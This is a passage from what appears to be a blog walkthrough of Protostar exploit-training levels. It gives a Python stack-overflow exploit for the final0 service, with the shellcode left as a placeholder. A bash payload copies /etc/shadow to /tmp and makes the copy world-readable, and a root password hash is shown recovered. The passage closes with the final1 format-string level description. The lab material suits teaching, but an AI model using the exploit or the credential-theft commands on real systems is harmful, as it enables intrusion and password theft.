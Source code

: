 {% highlight python %}
# final0_solution.py
import socket, struct

HOST="localhost"
PORT=2995
SHELLCODE=":)" # <- Be careful of dangerous cyber codez
SLEDLENGTH=32
SLED='\x90'*SLEDLENGTH
ADDRESS='\x48\xfa\xff\xbf' 
OVERFLOW='A'*(0x214-len(SHELLCODE) - SLEDLENGTH)+ADDRESS

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.sendall(SLED+SHELLCODE+OVERFLOW)
{% endhighlight %}


The file that's being executed by our shellcode is just an example
of what's possible.

{% highlight bash %}
#!/bin/bash
# File: /tmp/exe
cp /etc/shadow /tmp/shadow
chmod 777 /tmp/shadow
{% endhighlight %}

~~~
$ python final0_solution.py
$ grep root /tmp/shadow 
root:$6$gOA4/iAf$EMw.4yshZLZxjlf./VmnEVQ20QsEmdzZa73csPGYGG6KC.riaGhLmESwWwB7Rnntu5JCDnRnOUTeeYWQk.iUq0:15302:0:99999:
~~~

![Success]({{ site-url }}/assets/post_images/protostar_final0_success.gif)

* * * 

## [final1](https://exploit-exercises.com/protostar/final1/)

> ## About
>
>This level is a remote blind format string level. The ‘already
>written’ bytes can be variable, and is based upon the length of the
>IP address and port number.
>
>When you are exploiting this and you don’t necessarily know your IP
>address and port number (proxy, NAT / DNAT, etc), you can determine
>that the string is properly aligned by seeing if it crashes or not
>when writing to an address you know is good.
